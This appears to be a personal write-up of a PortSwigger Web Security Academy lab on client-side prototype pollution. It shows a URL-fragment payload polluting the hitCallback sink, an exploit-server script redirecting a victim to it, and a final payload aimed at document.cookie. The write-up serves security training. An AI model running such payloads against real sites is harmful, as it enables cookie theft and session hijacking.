 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/client-side-prototype-pollution/lab-3/"}
---
```



---

## Objective: Get document.cookie

### Automatic method

In this lab, we are recommended to use DOM Invader as it saves us time and effort. First just use it like the same open the browser and the extension

![Pasted image 20250330233647.png](/img/user/Images/Pasted%20image%2020250330233647.png)

![Pasted image 20250330233836.png](/img/user/Images/Pasted%20image%2020250330233836.png)

And we get the alert here after exploiting the exploiting the sink which is `hitCallback`

![Pasted image 20250331001017.png](/img/user/Images/Pasted%20image%2020250331001017.png)

Here is the generated payload that calls an alert

```
/#__proto__[hitCallback]=alert%281%29
```

Now, the objective is to steal the cookie, Portswigger already mad a server for which we can deliver the payload

![Pasted image 20250331001211.png](/img/user/Images/Pasted%20image%2020250331001211.png)

We craft the exploit with `<script>` tags in the body with the `location` reference being our payload 

```
<script>
    location="https://0adc007d04ba9aaa8508314200390060.web-security-academy.net/#__proto__[hitCallback]=alert%281%29"
</script>
```

But the payload is URL-encoded, we can check using Cyberchef

![Pasted image 20250331001409.png](/img/user/Images/Pasted%20image%2020250331001409.png)

### Exploit

Only change the alert to a `document.cookie` and the exploit is set.

```
https://0adc007d04ba9aaa8508314200390060.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29
```
